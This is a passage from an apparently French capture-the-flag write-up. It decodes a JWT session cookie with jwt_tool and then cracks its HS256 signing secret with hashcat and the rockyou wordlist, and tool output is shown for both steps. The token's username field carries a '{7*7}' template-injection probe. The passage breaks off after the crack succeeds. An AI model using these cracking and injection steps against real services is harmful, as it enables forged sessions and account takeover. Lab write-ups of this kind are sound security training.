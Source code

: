 En decodant le cookie  il contient un username, un role et un horodatage d'expiration. 

```bash
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJ1c2VyIn0.n4gkBy16-M8smbXV_c6TRNueb8EtyZ23Y5qDAD-xoDk

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi      

Original JWT: 

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] username = "{7*7}test1"
[+] exp = 1734986291    ==> TIMESTAMP = 2024-12-23 21:38:11 (UTC)
[+] role = "user"

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

```
J'ai utilisé `hashcat` pour cracker la clé secrète. 

```bash
┌──(kali㉿korpstation)-[~/CTF/Tools/jwt_tool]
└─$ hashcat jwt /usr/share/wordlists/rockyou.txt     
hashcat (v6.2.6) starting in autodetect mode
--SNIP--
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZS...D-xoDk
Time.Started.....: Mon Dec 23 20:40:42 2024 (22 secs)
Time.Estimated...: Mon Dec 23 20:41:04 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   644.5 kH/s (1.26ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14262272/14344385 (99.43%)
Rejected.........: 0/14262272 (0.00%)
Restore.Point....: 14261248/14344385 (99.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 007857 -> 0071851013
Hardware.Mon.#1..: Util: 92%
```